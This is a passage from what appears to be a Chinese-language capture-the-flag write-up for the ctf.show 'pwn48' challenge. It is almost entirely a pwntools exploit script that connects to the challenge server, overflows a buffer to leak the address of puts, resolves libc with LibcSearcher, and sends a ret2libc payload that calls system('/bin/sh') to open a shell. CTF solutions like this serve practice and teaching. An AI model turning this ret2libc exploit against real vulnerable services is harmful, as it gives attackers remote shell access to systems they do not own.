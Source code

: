 ```python

io.interactive()
```

## pwn48

同样32位填板子，填完就拿到flag

exp：

```python
from pwn import *
from LibcSearcher import *

io = remote('pwn.challenge.ctf.show',28214 )
# io = process("")
elf = ELF('./pwn48')
# libc= ELF('libc.so.6')

main_add =0x0804863D
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

print("Puts_got: ", hex(puts_got))
print("Puts_plt: ", hex(puts_plt))

offset =0x6B

payload1 = b'a' * (offset + 4) + p32(puts_plt) + p32(main_add) + p32(puts_got)
io.sendlineafter(b'O.o?', payload1)
puts_addr = u32(io.recvuntil(b'\xf7')[-4:])
print("Puts_addr: ", hex(puts_addr))

libc = LibcSearcher('puts', puts_addr)

libc_base = puts_addr - libc.dump('puts')
system_add = libc_base + libc.dump('system')
bin_sh_add = libc_base + libc.dump('str_bin_sh')

# libc_base = puts_addr - libc.symbols['puts']
# system_add = libc_base + libc.symbols['system']
# bin_sh_add = libc_base + next(libc.search(b'/bin/sh'))

payload2 = b'a' * (offset + 4) + p32(system_add) + p32(0) + p32(bin_sh_add)
io.sendlineafter(b'O.o?', payload2)

io.interactive()
```

## pwn49
